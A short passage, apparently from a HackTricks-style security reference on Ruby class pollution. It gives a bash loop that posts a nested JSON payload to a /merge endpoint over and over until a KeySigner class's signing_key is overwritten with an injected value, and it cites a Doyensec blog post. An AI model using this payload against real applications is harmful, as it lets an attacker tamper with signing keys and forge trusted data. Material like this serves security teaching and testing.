 ### **Poisoning Other Classes**

With this payload:

```bash
for i in {1..1000}; do curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"signing_key":"injected-signing-key"}}}}}}' http://localhost:4567/merge --silent > /dev/null; done
```

It's possible to brute-force the defined classes and at some point poison the class **`KeySigner`** modifying the value of `signing_key` by `injected-signing-key`.\

## References

- [https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html)

{{#include ../../banners/hacktricks-training.md}}
